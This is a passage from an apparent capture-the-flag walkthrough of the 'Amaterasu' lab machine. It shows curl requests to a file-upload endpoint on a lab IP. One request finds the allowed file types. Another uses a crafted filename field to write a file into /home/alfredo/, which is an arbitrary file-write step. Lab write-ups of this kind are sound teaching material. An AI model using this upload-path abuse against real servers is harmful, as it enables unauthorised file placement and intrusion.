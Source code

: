 Now I saw that the example.txt file got uploaded into the `/tmp` folder →

![Untitled](/Vulnhub-Files/img/Amaterasu/Untitled%209.png)

lets upload the file into the `/home/alfredo/` directory →

But firstly I got to know that only these extensions of files are allowed to upload into the system →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Amaterasu]
└─$ curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file="@/home/kali/Downloads/Proving_Ground/Amaterasu/hello" -F filename="hello" http://192.168.211.249:33414/file-upload
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Wed, 05 Jul 2023 09:18:51 GMT
Content-Type: application/json
Content-Length: 67
Connection: close

{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```
{: .nolineno}
{: .nolineno}

So now lets try that file to upload into the users directory →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Amaterasu]
└─$ curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file="@/home/kali/Downloads/Proving_Ground/Amaterasu/example.txt" -F filename="/home/alfredo/example.txt" http://192.168.211.249:33414/file-upload
HTTP/1.1 201 CREATED
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Wed, 05 Jul 2023 09:21:31 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}
```
{: .nolineno}
{: .nolineno}
